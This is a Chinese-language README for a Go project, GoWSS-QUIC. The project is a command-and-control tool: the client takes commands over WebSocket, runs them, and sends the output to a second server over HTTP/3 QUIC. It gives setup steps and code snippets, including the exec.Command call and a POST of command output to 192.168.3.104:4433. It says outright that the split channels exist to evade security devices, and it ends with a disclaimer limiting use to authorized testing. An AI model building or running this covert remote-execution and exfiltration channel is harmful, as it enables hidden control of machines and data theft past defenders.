 ### README (中文)

---

# WebSocket & QUIC 客户端-服务器项目

## 概述

此项目展示了基于 Go 的客户端-服务器架构，客户端通过 WebSocket 与服务器通信，并在触发某些事件时通过 HTTP/3（QUIC）发送请求。服务器使用 WebSocket 进行数据交换，同时使用 HTTP/3 发送 QUIC 请求到指定的服务器。

当服务器向客户端发送命令时，客户端执行这些命令，并将结果通过 HTTP/3 请求发送到另一台服务器。

通过不同的通道，将命令和执行结果分开可以使网络流量分析变得更加复杂，隐藏命令和结果，增加安全设备检测和分析的难度。

## 前置条件

- 已安装 Go 1.16+。
- 有效的 TLS 证书和密钥，用于安全的 WebSocket 和 HTTP/3 连接。
- 需要的依赖库：
    - [`gorilla/websocket`](https://github.com/gorilla/websocket)
    - [`quic-go/http3`](https://github.com/quic-go/quic-go)

## 安装与运行

1. **克隆仓库**：
   ```bash
   git clone https://github.com/zhangyang9123/GoWSS-QUIC/.git
   cd GoWSS-QUIC
   ```

2. **安装依赖**：
   确保安装了项目所需的 Go 模块：
   ```bash
   go mod tidy
   ```

3. **生成或配置 TLS 证书**：
   你可以使用 Let's Encrypt 或 OpenSSL 工具生成 TLS 证书和密钥。
   ```bash
   openssl req -x509 -newkey rsa:2048 -keyout server.key -out server.crt -days 365 -nodes
   ```

4. **启动 QUIC 服务器**：
   启动监听 `4433` 端口的 QUIC（HTTP/3）服务器：
   ```bash
   go run server.go
   ```

5. **启动 WebSocket 客户端**：
   运行客户端，它会连接到 WebSocket 服务器，并将请求发送到 QUIC 服务器：
   ```bash
   go run client.go
   ```

## 代码概览

### `server.go`

- **WebSocket 服务器**：
  WebSocket 服务器监听 `:8888` 端口。客户端连接后，服务器可以向客户端发送命令，客户端执行这些命令并返回结果。

- **QUIC 服务器**：
  QUIC 服务器通过 `:4433` 端口处理 HTTP/3 请求，客户端通过该端口发送命令执行结果。

```go
http.HandleFunc("/ws", handleWebSocket)
log.Println("WebSocket server started on :8888")
log.Fatal(http.ListenAndServeTLS(":8888", certFile, keyFile, nil))
```

### `client.go`

- **WebSocket 客户端**：
  客户端通过 TLS 安全的 WebSocket 连接（`wss://`）连接到服务器，监听服务器发送的命令，执行后将结果通过 QUIC 请求发送出去。

- **QUIC 请求**：
  在执行命令并获取结果后，客户端通过 HTTP/3 协议向 QUIC 服务器发送 POST 请求，包含执行命令的结果。

```go
cmd := exec.Command(program, args...)
output, err := cmd.CombinedOutput()
// 发送结果到 QUIC 服务器
req, err := http.NewRequestWithContext(context.Background(), http.MethodPost, "https://192.168.3.104:4433", bytes.NewReader(output))
```

## 工作原理

1. **客户端-服务器通信**：
    - 客户端连接到 WebSocket 服务器（`wss://127.0.0.1:8888/ws`）。
    - 服务器通过 WebSocket 发送命令到客户端，客户端执行命令并将结果返回。
    - 客户端将执行命令的结果通过 HTTP/3 协议发送到 QUIC 服务器（`https://127.0.0.1:4433`）。

2. **随机行为处理**：
   客户端内置了随机逻辑，可以决定是否通过 QUIC 发送命令结果。该逻辑可以根据实际需求进行调整。

## 示例

1. **启动服务器**：
   运行 WebSocket 服务器 (`server.go`)，并同时处理 QUIC 请求。

2. **启动客户端**：
   启动客户端 (`client.go`)，并连接到 WebSocket 服务器。

3. **从服务器发送命令**：
   你可以通过服务器向客户端发送如下命令：
   ```bash
   whoami
   ```

4. **查看结果**：
   客户端将执行命令，并通过 QUIC 请求将结果发送到 HTTP/3 服务器。


---
# 免责声明

此工具仅用于合法授权的企业安全建设活动。如果您需要测试此工具的可用性，请设置您自己的靶机环境。
如果您在使用本工具时有任何违法行为，您应自行承担相应后果，我们不承担任何法律或连带责任。
在安装和使用此工具之前，请仔细阅读并充分理解每一条款的内容。涉及您重要权益的限制、免责声明或其他条款可能会以粗体、下划线或其他形式突出显示。除非您已完全阅读、理解并接受本协议的所有条款，否则请勿安装和使用此工具。您对本协议的使用或任何其他明示或暗示的接受应被视为您已阅读并同意受本协议的约束。